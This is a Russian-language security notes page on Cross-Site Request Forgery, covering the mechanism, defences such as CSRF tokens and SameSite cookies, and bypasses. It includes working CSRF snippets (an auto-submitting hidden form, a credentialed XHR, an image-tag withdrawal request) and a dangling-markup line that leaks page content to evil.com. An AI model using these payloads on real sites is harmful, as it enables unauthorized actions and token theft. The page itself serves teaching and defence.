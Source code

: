 # Сross Site Request Forgery

**CSRF** - атака, эксплуатирующая недостатки протокола **HTTP**. 

# Механизм

Ресурс `example.com` - доверенный, пользователь на нем авторизован,  
`evil.com` - ресурс атакующего.

1. Пользователь заходит на `evil.com`
2. В фоне отправляется запрос на `example.com`, при этом в запросе есть авторизационные данные, например **Cookie**
3. На доверенном ресурсе осуществляется вредоносная операция.

Также к **CSRF** относят редирект на **Reflected XSS**.

## Эксплуатация

### GET

`<img src="http://bank.example.com/withdraw?account=Alice&amount=1000000&for=Bob">`

При загрузке страницы уйдет **GET** запрос на `bank.example.com`  

### POST

    <iframe style="display:none" name="csrf-frame"></iframe>
    <form method='POST' action='http://vulnerablesite.com/form.php' target="csrf-frame" id="csrf-form">
      <input type='hidden' name='criticaltoggle' value='true'>
      <input type='submit' value='submit'>
    </form>
    <script>document.getElementById("csrf-form").submit()</script>

При загрузке страницы уйдет **POST** запрос на `http://vulnerablesite.com/form.php`. При этом незаметный для пользователя, для этого используется `iframe`.

### XHR POST

    var request = new XMLHttpReequest();
    var data = "bla=123,blabla=312";

    request.open("POST", "http://example.com/method", true);
    request.withCredentials = true;
    request.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    request.send(data);

`withCredentials` - отправляет **Cookie**,  

`Content-type: application/x-www-form-urlencoded`,  
`Content-type: text/plain`,  
`Content-type: application/form-data` - **SOP** разрешает "простые"

## Защита

Выделяют несколько способов:  

* **CSRF**-токен - рассмотрим далее
* **Double submit cookie** - дублирование токена из **Cookie** в параметрах запроса
* **Content-type based** - принимать строго заданный **Content-type**, но не "простые"
* **Referer based** - проверять заголовок **Referer**, но заголовка может не быть легко, поэтому не рекомендуется
* **SameSite Cookie** - параметр **Cookie**, не позволяющий отправлять их с другого домена, но поддерживается не везде

### CSRF токен

1. Генерирует высокоэнтропийный токен для пользовательской сессии
2. Доставляем надежным источником: в **DOM** или через **API**
3. Пользователь с запросом присылает токен в заголовках или параметром

В итоге для **CSRF** нужно сначала угнать токен

## Обход защиты

Наиболее простые:  

* **XSS** - все понятно
* **Subdomain Takeover** - все понятно
* **Dangink markup** - допустим можем в **XSS** пропихнуть **HTML**, но не **JS**, тогда:  

`<img src="http://evil.com/?html=`

и в итоге содержимое страницы уйдет на `evil.com` и если **CSRF**-токен был в **DOM** после уязвимого `input`, то токен будет получен.

[← Назад](../README.md)